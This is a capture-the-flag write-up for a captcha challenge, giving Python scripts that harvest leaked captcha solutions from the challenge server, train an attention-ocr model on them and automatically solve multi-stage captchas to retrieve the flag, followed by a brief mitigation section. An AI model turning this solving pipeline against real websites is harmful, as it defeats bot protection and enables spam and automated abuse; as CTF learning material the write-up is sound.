


# Captcha

## Solution

At first, I tried to follow the approach described [here](https://medium.com/@ageitgey/how-to-break-a-captcha-system-in-15-minutes-with-machine-learning-dbebb035a710). We seperate each character and can then more easily identify the character.
There is only one problem:



If there are two characters tied together like this, there isn't really an efficent way to seperate and identify them correctly. I searched for other solutions that may not have this problem and I stumbled upon this repository:
https://github.com/emedvedev/attention-ocr

All we had to do was setting up an virtual environment with Python 2.7, install attention-ocr and tensorflow 1.14.
I wrote a script that collects captchas and saves them with their solution as the name:
```python
#!/usr/bin/env python3

import argparse
import base64
import cv2
import requests
import re
import time
import os


parser = argparse.ArgumentParser()
parser.add_argument("-n", "--number", type=int, default=100, help="how many captchas to get")
parser.add_argument("-d", "--delay", type=float, default=0.4, help="delay between requests")
args = parser.parse_args()

url = "http://hax1.allesctf.net:9200/captcha/0"


def getCaptcha(session):

    r = session.get(url)

    re_img = re.search("iV[\w\=\+\/]+", r.text)
    img = base64.b64decode(re_img.group(0))

    f = open("captcha.png", "wb")
    f.write(img)
    f.close()

    return


def getSolution(session):

    data = {}
    data["0"] = ""

    r = session.post(url, data=data, allow_redirects=False)

    solution = re.search("(?<=solution\=)[\w]+", r.text)

    return solution.group(0)


def main():

    print("===== COLLECTING CAPTCHAS =====\n")

    for n in range(1, args.number):

        print(f"[i] COUNT: {n}...", end="\r")

        session = requests.Session()

        getCaptcha(session)

        solution = getSolution(session)

        os.replace("captcha.png", f"training-captchas/{solution}.png")

        time.sleep(args.delay)

    print(f"[i] COUNT: {args.number}...\n")

    print("=========== FINISHED! =========")

if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("[i] Quitting...")
        quit()
```

Once ~1500 captchas were collected, I wrote a script that creates a dataset file for attention-ocr:
```python
#!/usr/bin/env python3

import sys
import os


print("==== CREATING DATASET FILE ====\n")
print("SAVING IN:", "captcha-" + sys.argv[1] + ".txt")

PATH = "/".join(os.path.realpath(__file__).split("/")[:-1])

f = open("captcha-" + sys.argv[1] + ".txt", "a")
length = []

for file in os.listdir(sys.argv[1] + "-captchas"):

    solution = file.split(".")[0]
    length.append(len(solution))

    f.write(PATH + "/" + sys.argv[1] + "-captchas/" + file + " " + solution + "\n")

print("MAX SOLUTION LENGTH:", max(length))
print("\n========== FINISHED! ==========")
f.close()
```
Running:
```
$ python create_dataset.py training
```
```
$ aocr dataset captcha-training.txt training.tfrecords
```
Now, after we created the TFRecords dataset we can begin to train, but we have to supply it with the correct parameters. I also edited the file located at `~/.pyenv/versions/2.7.17/envs/venv2.7/lib/python2.7/site-packages/aocr/util/data_gen.py` at line 23 and removed the `O` from the charset since I figured that there is no `O` in the captchas, due to the similarity of `O` and `0`.
```
$ aocr train --max-width 355 --max-height 30 --max-prediction 15 training.tfrecords
```
I left it running for about 7 hours and had a success rate of about 99%, so now let's try to solve it with this script (needs to be run in the virtual environment since it uses `aocr predict` to solve the captchas):
```python
#!/usr/bin/env python2

import base64
import requests
import re
import os
import subprocess
import time

# turn off tensorflow warnings
os.environ["TF_CPP_MIN_LOG_LEVEL"] = "3"


def solveCaptchas(captchas):

    f = open("/tmp/names.txt", "w")
    f.write("\n".join(captchas))
    f.close()

    p = subprocess.Popen("cat /tmp/names.txt | aocr predict --max-width 355 --max-height 30 --max-prediction 15", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p.wait()
    out, err = p.communicate()

    solutions = []

    for solution in re.findall("(?<= )[A-Z0-9]{6,15}", err):
        solutions.append(solution)

    return solutions


def stage1(session):

    r = session.get("http://hax1.allesctf.net:9200/captcha/0")

    re_img = re.search("iV[\w\=\+\/]+", r.text)
    img = base64.b64decode(re_img.group(0))

    f = open("captcha.png", "wb")
    f.write(img)
    f.close()

    solution = solveCaptchas(["captcha.png"])[0]

    print("Stage 0:", solution)

    data = {}
    data["0"] = solution

    r = session.post("http://hax1.allesctf.net:9200/captcha/0", data=data)

    return r


def stageN(session, page, stage_number):

    re_img = re.findall("iV[\w\=\+\/]+", page.text)

    data = {}
    captchas = []

    for n, img in enumerate(re_img):

        img = base64.b64decode(img)
        name = "captcha" + str(n) + ".png"

        f = open(name, "wb")
        f.write(img)
        f.close()

        captchas.append(name)

    start = time.time()

    solutions = solveCaptchas(captchas)

    for n, solution in enumerate(solutions):

        print("Stage " + str(stage_number) + "[" + str(n) + "]:", solution)

        data[str(n)] = solution

    end = time.time()

    print("Time:", end-start)

    r = session.post("http://hax1.allesctf.net:9200/captcha/" + str(stage_number), data=data)

    return r


def main():

    print("=" * 18 + " STAGE 0 " + "=" * 18)
    session = requests.Session()

    next_page = stage1(session)

    if "fail" in next_page.url:
        print(next_page.url)
        print("=" * 18 + " FAILED! " + "=" * 18)
        quit()


    print("=" * 18 + " STAGE 1 " + "=" * 18)

    next_page = stageN(session, next_page, 1)

    if "fail" in next_page.url:
        print("=" * 18 + " FAILED! " + "=" * 18)
        quit()

    print("=" * 18 + " STAGE 2 " + "=" * 18)

    next_page = stageN(session, next_page, 2)

    if "fail" in next_page.url:
        print("=" * 18 + " FAILED! " + "=" * 18)
        quit()

    print("=" * 18 + " STAGE 3 " + "=" * 18)

    next_page = stageN(session, next_page, 3)

    if "fail" in next_page.url:
        print("=" * 18 + " FAILED! " + "=" * 18)
        quit()

    print("=" * 19 + " FLAG! " + "=" * 19)

    re_img = re.search("iV[\w\=\+\/]+", next_page.text)
    img = base64.b64decode(re_img.group(0))

    f = open("flag.png", "wb")
    f.write(img)
    f.close()

    print("SAVED FLAG IN: flag.png")


if __name__ == "__main__":
    main()
```
... And we get the flag:




## Mitigation

There is no way to properly stop these kind of captcha solvers, that also isn't what captchas were designed for. They are supposed to deter and not stop spammers and bots.
An alternative is [reCaptcha](https://www.youtube.com/watch?v=tbvxFW4UJdU) by Google that sends metadata to Google's server on which an AI determines the likelihood of a bot clicking it.
